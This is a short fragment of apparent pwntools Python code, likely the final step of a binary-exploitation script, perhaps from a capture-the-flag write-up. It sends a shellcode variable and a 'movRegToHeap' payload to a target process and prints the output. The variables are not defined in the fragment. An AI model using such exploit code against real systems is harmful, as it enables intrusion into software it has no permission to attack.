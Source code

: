 ```python
bin.recvuntil('>')
bin.sendline(shellcode)
bin.recvuntil('>')
bin.sendline(movRegToHeap)
print bin.recvall()
```